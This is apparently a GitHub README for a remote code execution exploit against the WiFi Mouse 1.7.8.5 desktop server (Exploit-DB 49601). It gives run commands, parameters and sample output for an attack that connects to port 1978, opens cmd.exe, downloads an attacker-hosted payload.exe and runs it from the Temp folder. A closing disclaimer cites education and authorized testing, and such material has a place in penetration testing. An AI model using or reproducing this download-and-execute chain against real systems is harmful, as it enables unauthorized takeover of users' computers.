 # WiFi Mouse 1.7.8.5 Remote Code Execution Exploit (Remake)

This script is an exploit for **WiFi Mouse 1.7.8.5** that allows an attacker to execute arbitrary commands on the target system remotely. The exploit works by exploiting a vulnerability in the desktop server software used by the mobile app, which doesn't properly validate input commands.

## Description

The **WiFi Mouse** app (version 1.7.8.5) allows users to control their PC via a mobile device. However, the desktop server software does not fully protect against unauthorized remote command execution. This vulnerability allows an attacker to send crafted packets to the target system, which results in remote code execution.

This script exploits this vulnerability to execute arbitrary commands and download a payload from a remote server.

## Exploit Details

The vulnerability exists in the PIN verification process, which fails to prevent unauthorized command execution. The target responds with a `needpassword` message, which is only handled by the mobile app and does not block the execution of commands.

## Requirements

- **Python 3.x** (Tested on Python 3.7+)
- **target IP or domain**
- **Local HTTP server running with the payload**

## Usage

### Prerequisites:

1. **Install Python 3.x** if not already installed.
2. **Run a local HTTP server** to host your payload.
3. **Prepare your payload** that will be executed on the target machine.

### Running the Script:

```bash
python exploit_script.py <target-ip/domain> <local-http-server-ip> <payload-name>

```

**Parameters**:

- `<target-ip/domain>`: The IP address or domain of the target machine.
- `<local-http-server-ip>`: Your local machine's IP address, where the payload is hosted.
- `<payload-name>`: The name of the payload file to be executed on the target.

### Example:

```bash
python exploit_script.py hermes.local.exam 192.168.1.100 payload.exe

```

This command will:

- Resolve the domain `hermes.local` to its corresponding IP.
- Connect to the target on port `1978`.
- Download the payload (`payload.exe`) from your local HTTP server at `192.168.1.100`.

### Script Output:

Once the script is executed, it will:

- Open the `cmd.exe` on the target system.
- Deliver the payload.
- Execute the payload from the `C:\Windows\Temp\` directory.

### Expected Output:

```bash
Resolving Target IP for hermes.local...
Resolved Target IP: 192.168.1.10, Port: 1978
[+] Connecting to target...
[+] Starting exploit in 3...2...1...
[+] Opening cmd.exe...
[+] Delivering payload to target...
[+] Executing payload from Temp folder...
[+] Exploit complete! Check your listener.
[+] Connection closed.

```

## References

- [Exploit-DB: 49601](https://www.exploit-db.com/exploits/49601)

## Disclaimer

This script is intended for educational purposes and to demonstrate the vulnerability in the WiFi Mouse software. Use it responsibly and only on systems where you have explicit permission to perform penetration testing.

